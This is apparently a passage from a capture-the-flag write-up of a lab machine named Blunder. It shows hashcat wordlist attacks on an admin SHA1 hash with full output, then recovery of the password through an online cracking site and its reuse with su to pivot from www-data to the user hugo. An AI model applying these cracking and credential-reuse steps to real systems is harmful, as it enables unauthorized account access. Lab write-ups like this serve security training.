 ```bash
❯ echo "faca404fd5c0a31cf1897b823c695c85cffeb98d" > Results/admin_hash
❯ hashcat -a 0 -m 100  Results/admin_hash /usr/share/dict/rockyou.txt
Session..........: hashcat                                
Status...........: Exhausted
Hash.Mode........: 100 (SHA1)
Hash.Target......: faca404fd5c0a31cf1897b823c695c85cffeb98d
Time.Started.....: Mon Jun 13 00:20:15 2022 (5 secs)
Time.Estimated...: Mon Jun 13 00:20:20 2022 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/dict/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2636.9 kH/s (0.31ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 0/1 (0.00%) Digests
Progress.........: 14344383/14344383 (100.00%)
Rejected.........: 0/14344383 (0.00%)
Restore.Point....: 14344383/14344383 (100.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: $HEX[206b656c7365796c6f7665736261727279] -> $HEX[042a0337c2a156616d6f732103]
Hardware.Mon.#1..: Util: 18%
❯ hashcat -a 0 -m 100 Results/admin_hash /usr/share/seclists/Passwords/xato-net-10-million-passwords-1000000.txt
Session..........: hashcat                                
Status...........: Exhausted
Hash.Mode........: 100 (SHA1)
Hash.Target......: faca404fd5c0a31cf1897b823c695c85cffeb98d
Time.Started.....: Mon Jun 13 00:19:17 2022 (0 secs)
Time.Estimated...: Mon Jun 13 00:19:17 2022 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/seclists/Passwords/xato-net-10-million-passwords-1000000.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2455.2 kH/s (0.31ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 0/1 (0.00%) Digests
Progress.........: 1000000/1000000 (100.00%)
Rejected.........: 0/1000000 (0.00%)
Restore.Point....: 1000000/1000000 (100.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: vadert4 -> vaanes
Hardware.Mon.#1..: Util: 18%
```
As our wordlists weren't able to crack the password, we will use `https://crackstation.net/` to try to crack it. Success!! The hash correspond to a sha1 encryption of `Password120`, abd as the `nickname` for admin is `hugo`, we can try:
```bash
www-data@blunder:/var/www/bludit-3.9.2/bl-content/databases$ su hugo
Password: # Password120
hugo@blunder:/var/www/bludit-3.9.2/bl-content/databases$ hostname -I
10.10.10.191 dead:beef::250:56ff:feb9:f4cb 
```
We pivoted to user `hugo`.
